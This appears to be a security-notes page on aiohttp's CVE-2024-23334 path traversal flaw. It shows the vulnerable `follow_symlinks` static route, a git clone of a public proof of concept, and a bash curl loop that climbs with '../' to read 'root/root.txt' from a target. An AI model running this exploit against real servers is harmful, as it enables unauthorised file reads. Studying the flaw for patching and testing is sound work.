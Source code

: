 ```yaml
---
description: >-
  Python library that supports both client and server side of HTTP protocol and
  Web-Sockets (asyncio)
icon: globe-pointer
---
```


# AIOHTTP

{% embed url="https://docs.aiohttp.org/en/stable/index.html" %}
Documentation
{% endembed %}

{% embed url="https://security.snyk.io/package/pip/aiohttp" %}
Vulnerabilities
{% endembed %}

<details>

<summary><mark style="color:red;"><strong><code>CVE-2024-23334 - Path Traversal</code></strong></mark></summary>

{% hint style="info" %}
## <mark style="color:purple;">Versions :</mark> <mark style="color:red;">**`1.0.5 - 3.9.2`**</mark>
{% endhint %}

* <mark style="color:purple;">This vulnerability has been present since the introduction of the</mark> <mark style="color:orange;">**`follow_symlinks`**</mark> <mark style="color:purple;">parameter:</mark>

{% code title="Vulnerable Code" overflow="wrap" %}
```python
pp.router.add_routes([
    web.static("/static", "static/", follow_symlinks=True),  # Remove follow_symlinks to avoid the vulnerability
])
```
{% endcode %}

* [<kbd><mark style="color:orange;">**More information**<mark style="color:orange;"></kbd>](https://security.snyk.io/vuln/SNYK-PYTHON-AIOHTTP-6209406)
* <mark style="color:purple;">Look at the requests or fuzz the site to look for directories leaking static resources.</mark>

{% hint style="info" %}
<mark style="color:red;">**`PoC`**</mark>

{% code overflow="wrap" %}
```bash
git clone https://github.com/z3rObyte/CVE-2024-23334-PoC
```
{% endcode %}

* <mark style="color:purple;">Update the</mark> <mark style="color:orange;">**`URL`**</mark> <mark style="color:purple;">,</mark> <mark style="color:orange;">**`payload`**</mark> <mark style="color:purple;">, and</mark> <mark style="color:orange;">**`file`**</mark> <mark style="color:purple;">variables in the</mark> <mark style="color:orange;">**`PoC`**</mark> <mark style="color:purple;">to match your target:</mark>

{% code title="Example" overflow="wrap" %}
```bash
#!/bin/bash

url="http://localhost:8080"
string="../"
payload="/assets/"
file="root/root.txt" # without the first /

for ((i=0; i<15; i++)); do
   payload+="$string"
   echo "[+] Testing with $payload$file"
   status_code=$(curl --path-as-is -s -o /dev/null -w "%{http_code}" "$url$payload$file")
   echo -e "\tStatus code --> $status_code"

   if [[ $status_code -eq 200 ]]; then
       curl -s --path-as-is "$url$payload$file"
       break
   fi
done
```
{% endcode %}
{% endhint %}

</details>
